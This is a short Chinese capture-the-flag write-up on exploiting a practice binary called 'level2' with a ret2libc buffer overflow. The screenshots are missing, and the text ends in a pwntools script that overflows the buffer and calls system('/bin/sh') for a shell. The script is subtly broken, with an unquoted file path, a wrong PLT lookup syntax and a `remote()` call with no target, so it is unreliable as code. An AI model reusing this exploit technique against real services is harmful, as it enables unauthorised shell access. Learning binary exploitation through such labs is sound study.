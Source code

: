 前面的流程我们可以先省略，我们用我们的 IDA 打开我们的文件
![[Pasted image 20231204220454.png]]
我们的 `system` 出现，意味着我们可以使用我们的一个 `ret2libc` 的漏洞
![[Pasted image 20231204220521.png]]
并且我们这里有一个我们的 `read` 漏洞，我们的思路就是运用我们的 `ret2libc` 了。

我们的第一步：查看我们溢出的距离：

![[Pasted image 20231204220711.png]]

第二步：找到我们函数中出现的 `/bin/sh`
![[Pasted image 20231204220852.png]]
第三步：我们构建我们的语句：
```python
from pwn import *
io=remote()
io.recv()
elf=ELF(./level2)
system_plt=elf.plt("system")
bin_sh=next(elf.search(b"/bin/sh"))
payload=cyclic(0x88+0x4)+p32(system_plt)+p32(0xdeadbeef)+p32(bin_sh)
io.sendline(payload)
io.interactive()
```